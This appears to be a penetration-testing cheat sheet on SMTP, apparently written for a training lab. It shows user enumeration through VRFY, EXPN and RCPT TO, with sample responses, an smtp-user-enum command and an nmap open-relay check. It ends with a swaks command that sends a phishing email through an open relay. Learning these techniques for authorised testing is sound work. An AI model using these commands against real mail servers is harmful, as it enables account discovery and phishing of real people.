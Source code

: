 #SMTP
### VRFY command 
Connect to SMTP over telnet and use VRFY to confirm a user exists
```shell
VRFY root

252 2.0.0 root
```

### EXPN command 

Can Verify a user exists off a list. 
```shell
EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

### RCPT TO command 

Identifies the recipient of the email message 
Can repeat if multiple users 
```shell

RCPT TO:julio

550 5.1.1 julio... User unknown
```

### User command 

[smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
```shell
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

## Open Relay Attack

Allows unauthenticated email relay 
Check:
```shell
 nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
```shell
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
